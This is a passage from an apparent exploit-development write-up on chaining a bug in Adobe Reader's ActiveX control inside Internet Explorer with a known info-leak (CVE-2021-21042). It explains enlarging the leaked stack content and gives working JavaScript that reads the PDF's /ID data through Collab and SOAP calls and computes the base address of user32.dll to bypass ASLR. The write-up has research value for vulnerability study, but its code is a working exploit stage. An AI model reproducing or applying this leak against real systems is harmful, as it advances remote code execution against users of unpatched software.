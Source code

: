 #### Issue 1: Leaking something useful. 

The original discoverer leaked the base address for "Annots.api". That is not very useful over here, since my bug relies on the ActiveX control (I mean iexplore.exe), it is not possible reaching that library "Annots.api" from my bug.

**Solution.**

**Increasing (x4) the stack content being leaked**, we are able to reach out useful pointers saved in the stack located at the bottom suches as user32.dll, shell32.dll, and so on. This, added to both apps (AcroRd32.exe & IE rendering process) are based on **32-bit made the work easier**. Why? Because if we are able to leak base addr of user32.dll (32-bit version) in the process AcroRd32.exe, for sure our target process (IE rendering process) has also loaded this library in the same base address. This is the js function to leak a pointer into user32.dll added to a larger (x4) /ID tag content:

```js

function CVE202121042(){
        Collab.documentToStream(this);
        var docStream = Collab.documentToStream(this);
        var docString = SOAP.stringFromStream(docStream);

        // Go to the last /ID tag content
        var currentPosID = docString.search("/ID");
        while(currentPosID != -1){
            docString = docString.substring(currentPosID + 3, docString.length);
            currentPosID = docString.search("/ID");
        }
        // Find user32.dll return addr
        var addressString = 0;
        for(var i=2;i<docString.length;i+=8){
            var val = docString.substring(i+6, i+8) + docString.substring(i+4, i+6) + docString.substring(i+2, i+4) + docString.substring(i, i+2);
            if(parseInt(docString.substring(i+2, i+4) + docString.substring(i, i+2), 16) == 0x7daf){
                addressString = parseInt(val, 16)-0x37daf;
                break;
            }
        }
        return addressString;
    }

``` 
This code is possible thanks to the proof of concept for [CVE-2021-21042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21042) located at [this github repository](https://github.com/r1l4-i3pur1l4/CVE-2021-21042). By the way, return address for user32.dll chosen is found here:

![alt text](<./images/ret-addr-user32.dll-offset-chosen.png>) 
